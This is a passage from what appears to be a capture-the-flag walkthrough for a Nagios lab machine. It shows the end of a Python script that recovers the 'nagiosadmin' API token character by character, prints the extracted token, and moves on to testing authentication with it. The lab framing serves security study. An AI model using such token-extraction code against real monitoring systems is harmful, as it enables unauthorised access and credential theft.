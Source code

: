 ```python
                API_token = token_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

    print(f"[-] Alphabet lap completed without found char\n")
    print(f"[+] Found API token: {API_token}")

find_apitoken("nagiosadmin")
```

The script is executed.

![](img/monitored15.png)

As can be seen above, the API token of the user "nagiosadmin" is "iudgphd9pekiee9mkj7ggpd89q3yndctnperqoms2pq7qirbjeomfvg6eut9chll". All that remains is to see if authentication with such a token works.

![](img/monitored16.png)
